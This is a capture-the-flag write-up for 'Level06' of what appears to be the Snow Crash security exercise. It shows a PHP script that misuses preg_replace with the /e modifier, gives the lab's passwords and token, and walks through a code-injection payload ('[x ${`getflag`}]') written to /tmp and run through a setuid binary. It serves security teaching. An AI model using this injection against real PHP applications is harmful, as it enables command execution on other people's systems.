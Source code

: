 # Level06 - Flag06

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level06 | `viuaaale9huek52boumoomioc` |
| flag06  |                             |
| token   | `wiok45aaoguiboiki2tuin6ub` |

## Steps to resolve on VM

1. Connect to `level06` user and notice there is an executable and a php script owned by `flag06` user

```bash
su level06
# Enter the token

ls -l
> -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
> -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

2. Check the files

```bash
# We check first the content executed by this executable
strings level06
> [...]
> /usr/bin/php # It's indeed a PHP executable
> /home/user/level06/level06.php # Which is using the 'level06.php' script
> [...]

cat level06.php
> #!/usr/bin/php
> <?php
> function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
> function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
> $r = x($argv[1], $argv[2]); print $r;
> ?>
# By watching the script, we can notice that it takes a file as an argument, and applies some 'preg_replace'
# However, the first 'preg_replace' uses the 'e' modifier, a deprecated regex modifier which allows you to use PHP code within your regular expression
# We will use that to inject our "getflag" command
```

3. Exploit the 'e' modifier

We must match the `/(\\[x (.*)\\])/e` regex so it captures our "getflag" command and executes it with the 'e' modifier.

Basically, it will match anything with a format like : `[x test]`, and capture "test" in this example

So we need to give him getflag like this: [x \`getflag\`],
but to make it executable by the PHP script we must enclose it : [x ${\`getflag\`}]

```bash
# 1. Put it in a file
echo '[x ${`getflag`}]' > /tmp/flag06

# 2. Execute the PHP script to get the flag
./level06 /tmp/flag06
> PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
>  in /home/user/level06/level06.php(4) : regexp code on line 1
>
```

---

## Sources

### SHELL

- [/e regex modifier](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier)
- [Meaning of \\2](https://stackoverflow.com/questions/44879971/php-meaning-1-in-preg-replace)
